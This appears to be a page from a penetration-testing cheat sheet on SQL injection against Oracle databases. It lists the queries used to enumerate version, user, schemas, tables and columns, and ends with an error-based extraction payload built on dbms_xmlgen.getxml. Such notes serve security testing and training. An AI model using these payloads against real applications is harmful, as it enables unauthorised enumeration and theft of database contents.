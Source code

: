 ```yaml
---
title: Oracle DB Common
layout: default
parent: SQL Injection
has_children: false
nav_order: 6
---
```


<b>Can try to remove semicolon if the query fails</b>

Version check: `select * from v$version;`

Current DB user check: `select user from dual;`

Curren <b>schemas</b> (any of the following):\
`SELECT global_name FROM global_name;`\
`SELECT name FROM v$database;`\
`SELECT instance_name FROM v$instance;`\
`SELECT SYS.DATABASE_NAME FROM DUAL;`

Get list of <b>schemas</b>:\
`select owner from all_tables group by owner;`\
`SELECT DISTINCT owner FROM all_tables;`

Get list of <b>tables</b> for a specific schema (eg SYS): `select table_name from all_tables where owner = 'SYS' order by table_name;`

Get the columns for specific table (eg MENU): `select column_name, data_type from all_tab_columns where table_name = 'MENU';`

Finally selecting the item: `select * from schemaname.tablename`

<b>Error based</b>: (Oracle limits column name to 30 characters so need to output 30 at a time)\
`to_char(dbms_xmlgen.getxml('select "'||(select substr(banner,0,30) from v$version where rownum=1)||'" from sys.dual')) `